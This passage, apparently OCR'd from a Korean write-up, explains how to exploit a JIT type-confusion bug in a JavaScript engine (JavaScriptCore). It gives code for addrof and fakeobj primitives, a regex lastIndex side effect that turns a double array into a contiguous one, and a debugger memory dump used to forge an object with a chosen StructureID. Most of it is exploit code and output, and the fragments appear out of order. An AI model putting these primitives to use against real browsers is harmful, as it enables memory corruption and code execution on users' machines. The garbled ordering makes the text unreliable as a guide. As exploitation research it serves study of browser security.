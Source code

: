         // Do it!
        AddrSetter(array);
    		return array[0]
    }
    
    
    a = [1, 2, 3]
    va = addrof(a)
    fa = fakeobj(va)
    print(describe(va))
    print(describe(fa))
    a[0] = 10
    a[1] = 20
    a[2] = 30
    print(fa)

        regexLastIndex = Proxy;
        regexLastIndex.toString = function() {
            array[0] = [];
            return "0";
        };
        reg.lastIndex = regexLastIndex;

현재 `double`타입으로 된 `array`의 첫번째 인자로 `double`형 데이터가 아닌 array`를` 넣어주었다. 이제 array는 `ArrayWithContiguous`타입으로 바뀐다.

    		// Target function
        var AddrSetter = function(array) {
            // reg[Symbol.match]();
            "abc".match(reg);
            array[0] = val
            return array
        }

위 코드는 JIT 취약점이 트리거 되는 코드인데 `array[0]`의 값을 원하는 데이터로 덮어쓰고 있다. 이를 이용해 원하는 주소르 가진 오브젝트를 만들 수 있다. 아래부터 원하는 StructureID를 가진 가짜 오브젝트를 만드는 예제이다.

    >>> a = {}
    [object Object]
    >>> a.a = 1
    1
    >>> a.b = 2
    2
    >>> a.c = 3
    3
    >>> describe(a)
    Object: 0x7fffb05b0100 with butterfly (nil) (Structure 0x7fffb05703f0:[Object, {a:0, b:1, c:2}, NonArray, Proto:0x7fffb05b4000, Leaf]), StructureID: 296

    gef➤  tel 0x7fffb05b0100
    0x00007fffb05b0100│+0x0000: 0x0100160000000128  // JSC::JSCell | StructureID(128)
    0x00007fffb05b0108│+0x0008: 0x0000000000000000  // butterfly
    0x00007fffb05b0110│+0x0010: 0xffff000000000001  // a
    0x00007fffb05b0118│+0x0018: 0xffff000000000002  // b
    0x00007fffb05b0120│+0x0020: 0xffff000000000003  // c
    0x00007fffb05b0128│+0x0028: 0x0000000000000000
